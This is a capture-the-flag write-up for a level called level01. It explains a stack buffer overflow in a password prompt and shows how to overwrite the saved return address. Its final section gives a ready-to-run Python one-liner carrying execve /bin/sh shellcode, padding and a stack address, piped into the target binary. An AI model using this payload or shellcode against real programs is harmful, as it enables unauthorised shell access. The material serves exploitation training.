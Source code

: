 # LEVEL 01

## EXPLANATIONS

### BINARY BEHAVIOR

- functions : `main`, `verify_user_name`, `verify_user_pass`
- program prompts user for a username
  - this username is stored in a data section buffer and compared to string "dat_wil"
- if username is "dat_wil", user is then prompted for a password.
  - this password is stored on stack and we can overflow main sEIP
    - => fgets copies up to 100 bytes from [ESP + 1c<sub>16</sub>] (28<sub>10</sub>)
      - => we can write up to [ESP + 128]
    - sEIP is located at [ESP + 108]
      - => We can control sEIP

### EXPLOIT STRATEGY

- Issue are :

  1. double input on stdin, we had that already in rainfall bonuses.
     - Stop the first fgets with a '\n' after the username.
  2. shellcode will be located on stack, we have to align stacks in/out gdb while preparing the exploit.
     - shellcode + padding + overwrite sEIP with first byte of buffer address

### RUN COMMAND

```
python -c "print('dat_will' + '\n' +  '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80' + 'A' * 55 + '\xff\xff\xdd\xec'[::-1])" > /tmp/exploit_string
cat /tmp/exploit_string - | env - PWD=$PWD /home/users/level01/level01
```
